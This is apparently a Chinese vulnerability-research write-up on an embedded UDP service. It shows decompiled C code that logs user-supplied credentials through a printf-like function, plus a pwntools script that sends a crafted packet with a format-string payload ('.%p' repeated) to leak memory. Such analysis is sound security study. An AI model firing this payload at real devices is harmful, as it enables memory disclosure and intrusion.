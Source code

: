 ```c
    // ...
    sub_14C60(
      a1,
      "AuthMac: %X:%X:%X:%X:%X:%X\n",
      (unsigned __int8)v41,
      BYTE1(v41),
      BYTE2(v41),
      HIBYTE(v41),
      (unsigned __int8)v42,
      HIBYTE(v42));
    sub_14C60(a1, "LocalMac1: %X:%X:%X:%X:%X:%X\n", v16, v17, v18, v19, v20, v21);
    if ( sub_157CC(a1, &v41) )
      break;
LABEL_51:
    std::string::~string((std::string *)&v33);
    sub_1F224(v46);
  }
  sub_1F4C4(&v34, v46);
  sub_1F4DC(&v35, v46);
  sub_14C60(a1, "username: %s, password: %s\n", v34, v35);
  // ...
}
```

根据上面的代码框，我们知道程序在启动完毕之后会阻塞在`recvfrom`函数直到用户向程序发送了数据，在接收到输入之后会根据相应的判断语句进行处理。根据程序的行为知道处理完成之后它并不会退出，而是阻塞在`recvfrom`继续等待接收下一次用户的输入。`sub_14C60`在解析用户可控的`username`与`password`前的debug数据如下，这两者均存在于堆上：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669600771812-b37defcb-889a-4779-9212-69ef134417e2.png)

## ③、思路整理
将上面的exp稍微的进行修改以方便更换我们的payload：

```python
from pwn import *
from threading import Thread

context.log_level="debug"
def accept():
    l=listen(50127, typ='udp')	# 监听本地（Ubuntu）的50127端口
    l.wait_for_connection()
    print(l.recv(100))			# 接收100字节应该够了
    l.close()


thread = Thread(target=accept)
thread.start()


p=remote('192.168.5.1', 50127, typ='udp')
payload_username = b"cyberangel"
payload_password = b"bbbb"+b".%p"*50			# payload
encode_username = payload_username.hex()
encode_password = payload_password.hex()
data=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode_username}0950415353574f52443a{encode_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data)
p.close()
```
